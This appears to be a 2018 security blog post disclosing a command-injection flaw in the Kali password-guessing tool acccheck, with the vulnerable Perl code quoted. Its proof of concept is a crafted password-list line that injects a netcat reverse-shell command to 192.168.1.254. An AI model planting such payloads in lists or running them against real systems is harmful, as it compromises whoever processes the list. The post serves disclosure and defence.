 ```yaml
---
layout: post
title:  "Never trust the password lists"
date:   2018-06-13 00:00:00 +0100
categories: 
---
```


# Never trust the password lists

## Summary

Penetration testers often download password lists from external sources to use them in their bruteforcing tools. A very quick audit of some bruteforcing tools provided with Kali Linux show that a few of them show vulnerabilities where using maliciously crafted password lists could be dangerous.

`acccheck` is one of these tool, which is vulnerable to command injection.

Penetration testers should always audit their username and password bruteforcing lists before using them.

## Description

From the source code: 

```
Attempts to connect to the IPC$ and ADMIN$ shares depending on which flags have been
chosen, and tries a combination of usernames and passwords in the hope to identify
the password to a given account via a dictionary password guessing attack.
```

The tool can be obtained at [https://labs.portcullis.co.uk/tools/acccheck/](https://labs.portcullis.co.uk/tools/acccheck/).


## Vulnerability

The tools is vulnerable to command injection due to a lack of sanitization of user input.

By feeding a specific user or password list, arbitrary code can be executed.

Example of vulnerable code:

```
foreach $singlePass (@PASS_LIST)                                          
      {                                                                         
        chomp($singlePass);                                                     
        output("Host:$singleIp, Username:Administrator, Password:'$singlePass'");
        $connectValue = system("smbclient \\\\\\\\$singleIp\\\\admin\$ -U Administrator%'$singlePass' -c 'exit' 1> /dev/null 2> /dev/null");
```

$singlePass and $singleIP are retreived from the username and password file.

## Proof of concept

```
root@kali:~# cat passwords.txt 
admin
test
';printf 'nc -e /bin/sh 192.168.1.254 80' > /tmp/pwned ; sh /tmp/pwned & #
```

```
root@kali:~# acccheck -t 192.168.1.1 -P passwords.txt
```

## Recommendations

1. Usernames and passwords provided per lists should be correctly escaped before inserted in the prepared statement.

2. Username and password lists from unknown sources should never be trusted and always be audited before use.
